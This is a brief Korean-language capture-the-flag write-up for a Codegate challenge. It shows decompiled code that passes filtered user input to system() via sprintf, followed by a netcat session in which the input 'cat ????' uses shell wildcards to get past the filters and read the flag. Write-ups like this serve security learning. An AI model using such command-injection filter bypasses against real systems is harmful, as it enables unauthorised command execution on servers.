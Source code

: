 ```cpp
-rwxr-xr-x 1 root    root      6224 Jan 25 22:33 lib_9964.so
-rwxr-xr-x 1 root    root      6224 Jan 25 22:33 lib_9980.so
-rwxr-xr-x 1 root    root      6224 Jan 25 22:33 lib_9982.so
-rwxr-xr-x 1 root    root      6224 Jan 25 22:33 lib_9984.so
-rwxr-xr-x 1 root    root      6224 Jan 25 22:33 lib_9988.so
-rwxr-xr-x 1 root    root      6224 Jan 25 22:33 lib_9992.so
-rwxr-xr-x 1 root    root      6224 Jan 25 22:33 lib_9994.so
-rwxr-xr-x 1 root    root      6224 Jan 25 22:33 lib_9.so
-rwxr-xr-x 1 root    root      6224 Jan 26 10:37 lib_17394.so
```

```cpp
handle = dlopen("./20000_so/lib_4323.so", 1);
  if ( handle )
  {
    v3 = (void (__fastcall *)(char *, char *))dlsym(handle, "filter1");
    v6 = dlopen("./20000_so/lib_11804.so", 1);
    if ( v6 )
    {
      v4 = (void (__fastcall *)(char *))dlsym(v6, "filter2");
      puts("This is lib_17394 file.");
      puts("How do you find vulnerable file?");
      read(0, &buf, 0x32uLL);
      v3(&buf, &buf);
      v4(&buf);
      sprintf(&s, "%s 2 > /dev/null", &buf);
      system(&s);
```
- lib_17394.so 파일을 분석해보면 sprintf 함수에서 %s 앞에 ls 가 없는 것을 발견할 수있다.
- 처음에는 아무 숫자나 입력하고 \"-a 를 입력하면 flag가 있는 것을 확인하였다.
```cpp
circler@ubuntu:~/Desktop/codegate/asdf$ nc 110.10.147.106 15959 

   /$$$$$$   /$$$$$$   /$$$$$$   /$$$$$$   /$$$$$$  
  /$$__  $$ /$$$_  $$ /$$$_  $$ /$$$_  $$ /$$$_  $$ 
 |__/  \ $$| $$$$\ $$| $$$$\ $$| $$$$\ $$| $$$$\ $$ 
   /$$$$$$/| $$ $$ $$| $$ $$ $$| $$ $$ $$| $$ $$ $$ 
  /$$____/ | $$\ $$$$| $$\ $$$$| $$\ $$$$| $$\ $$$$ 
 | $$      | $$ \ $$$| $$ \ $$$| $$ \ $$$| $$ \ $$$ 
 | $$$$$$$$|  $$$$$$/|  $$$$$$/|  $$$$$$/|  $$$$$$/ 
 |________/ \______/  \______/  \______/  \______/  

INPUT : 17394
This is lib_17394 file.
How do you find vulnerable file?
cat ????
flag{Are_y0u_A_h@cker_in_real-word?}

```
- 그 후 ? 를 사용하여 flag를 읽을 수 있다.

> flag : Are_y0u_A_h@cker_in_real-word?
